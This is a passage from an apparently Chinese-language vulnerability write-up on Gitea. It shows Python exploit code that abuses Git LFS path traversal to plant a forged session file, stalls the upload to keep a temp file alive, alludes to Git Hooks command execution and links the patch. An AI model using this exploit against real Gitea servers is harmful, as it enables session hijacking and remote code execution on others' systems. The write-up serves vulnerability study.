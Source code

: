 ```python
            'Accept': 'application/vnd.git-lfs+json'
        }
    )
    logging.info(response.text)
```

##### 3. 生成`Authorization`

![1531883703859](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531883703859.png)

##### 4. 生成`session`数据

![1531898708274](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531898708274.png)

##### 5. 写入`session`数据

```python
def write_session(session):
    oid = '....gitea/sessions/1/1/11session'
    url = '%s.git/info/lfs/objects/%s' % (GIT_URL, urllib.quote(oid, safe=''))
    print url
    response = session.put(url, data=gen_data(), headers={
        'Accept': 'application/vnd.git-lfs',
        'Content-Type': 'application/vnd.git-lfs',
        'Authorization': 'Bearer ' + AUTH_TOKEN
    })
    logging.info(response.text)
```

其中`gen_data()`使用生成器来延迟响应时间，在这段时间内`.tmp`文件未被删除

```python
def gen_data():
    yield SESSION_DATA
    time.sleep(300)
```

`HEX_DATA`是生成的`session`数据

```python
HEX_DATA = '0eff81040102ff8...d696e313233'	//hex_data
SESSION_DATA = HEX_DATA.decode('hex')
```

##### 6. 修改Session

![1531905605099](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531905605099.png)

后续利用`Git Hooks`自动执行命令就不多说了

![1531905731043](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531905731043.png)

### 0x07 补丁分析
https://github.com/go-gitea/gitea/pull/3871/commits/61d86164b7a81cf478b28ed3ffd9aa83d33116d9
